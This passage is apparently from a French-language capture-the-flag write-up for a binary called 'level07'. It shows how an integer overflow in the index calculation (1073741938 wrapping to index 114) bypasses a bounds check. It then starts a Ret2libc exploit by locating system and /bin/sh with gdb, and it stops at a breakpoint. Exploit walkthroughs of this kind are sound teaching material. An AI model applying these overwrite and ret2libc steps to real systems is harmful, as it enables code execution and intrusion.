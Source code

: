 Nous ne pouvons donc pas écrire directement à l'index `114` puisque les limitations de la fonction `store_number` sur l'index nous en empêchent.

## Solution

Les opérations étant effectuées sur des `int_32`, nous pouvons utiliser un `overflow` pour contourner la limitiation du modulo. On se rappelle qu'au moment de l'écriture, le programme effectue une multiplication par `4` de l'index.
```
*(uint32_t *)(uVar2 * 4 + arg_8h) = uVar1;
                      ^
                      multiplication par 4
                      de l'index
```
En mettant comme index la valeur de l'`int_max` divisée par `4`, on tombe alors sur l'index `0`. Ainsi, nous pouvons retrouver notre adresse de cette manière :
```
input = [int_max] / 4 + 114
      = 4294967296 / 4 + 114
      = 1073741938
```
On peut le vérifier en lançant le programme :
```
> ./level07 
[...]
Input command: store
 Number: 1111
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 1111
 Completed read command successfully
```
La commande `store` n'a pas échoué et la commande `read` nous confirme que notre nombre a été stocké à l'index `114`. Nous pouvons donc maintenant écraser l'adresse de `eip`.

## Exploit

Comme tout exploit `Ret2libc`, nous devons au préalable trouver l'adresse de `system` ainsi que de `/bin/sh`. On utilise `gdb` :
```
> gdb level07
[...]
> (gdb) b main
Breakpoint 1 at 0x8048729
> (gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
```

---
